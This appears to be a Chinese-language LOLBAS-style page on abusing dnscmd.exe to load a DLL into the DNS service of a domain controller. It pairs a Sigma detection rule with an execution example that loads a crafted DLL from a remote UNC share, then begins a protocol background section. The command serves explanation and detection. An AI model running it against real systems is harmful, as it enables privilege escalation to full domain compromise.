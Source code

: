 ```plain
modified: 2021/09/12
author: Florian Roth
tags:
    - attack.defense_evasion
    - attack.t1073 # an old one
    - attack.t1574.002
    - attack.t1112
logsource:
    category: process_creation
    product: windows
detection:
    dnsadmin:
        Image|endswith: '\dnscmd.exe'
        CommandLine|contains|all: 
            - '/config'
            - '/serverlevelplugindll'
    condition: dnsadmin
falsepositives:
    - unknown
level: high
fields:
    - EventID
    - CommandLine
    - ParentCommandLine
    - Image
    - User
    - TargetObject
```

### 执行：

添加特制的 DLL 作为 DNS 服务的插件。此命令必须由至少是 DnsAdmins 组成员的用户在 DC 上运行。  
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\\dll\\wtf.dll  
用例：远程注入 dll 到 dns 服务器  
所需权限：DNS 管理员  
操作系统：Windows 服务器  
MITRE ATT&CK®：T1543.003：Windows 服务  
原文链接：[https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)

## DNS 服务器管理协议基础知识

RPC 之上的管理协议层，出于该协议的目的，可以将其分层在 TCP 或命名管道之上。如果您对协议或其实现感兴趣，可以在域控制器中的 c:\\windows\\system32\\dns.exe 下找到它。其 RPC 接口 UUID 为 50ABC2A4–574D-40B3–9D66-EE4FD5FBA076，并使用 \\PIPE\\DNSSERVER 命名管道进行传输。  
DNS 服务器作为域控制器上的服务运行。可以通过运行 dnsmgmt.msc 并连接到 AD DNS 服务器（通常是域控制器）来访问管理界面。它允许用户配置 DNS 区域、查找、缓存、转发和日志记录等。这个“层次结构”中的几个对象是安全的——DNS 服务器对象（不是计算机帐户）、区域对象和记录。在本例中，我们对服务器对象感兴趣，其 ACL 在全新安装时应如下所示：
